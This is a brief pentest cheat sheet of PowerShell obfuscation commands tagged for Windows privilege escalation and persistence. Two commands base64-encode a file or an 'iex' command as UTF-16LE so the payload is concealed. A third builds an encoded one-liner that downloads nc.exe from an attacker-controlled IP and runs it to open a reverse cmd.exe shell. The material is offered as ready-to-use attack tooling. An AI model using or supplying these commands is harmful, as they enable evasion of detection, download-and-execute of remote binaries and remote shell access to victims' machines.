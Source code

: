 # obfuscation

% obfuscation

#plateform/windows #target/local #cat/PRIVESC #cat/PERSIST #cat/RECON #tag/powershell 

## obfuscation - b64 -  convert file to powershell base64 
#plateform/linux #target/local #cat/RECON #tag/powershell 

```
iconv -f ASCII -t UTF-16LE <file> | base64 -w 0
```

## obfuscation - b64 -  convert command to powershell base64 
#plateform/linux #target/local #cat/RECON #tag/powershell 

```
echo "iex(command)" | iconv --to-code UTF-16LE | base64 -w 0
```

## obfuscation - b64 - convert nc revshell to powershell base64
```bash
python -c 'import base64; print(base64.b64encode((r"""(new-object net.webclient).downloadfile("http://<ip>/nc.exe", "c:\windows\temp\nc.exe"); c:\windows\temp\nc.exe -nv <ip> <port> -e c:\windows\system32\cmd.exe;""").encode("utf-16-le")).decode())'
```
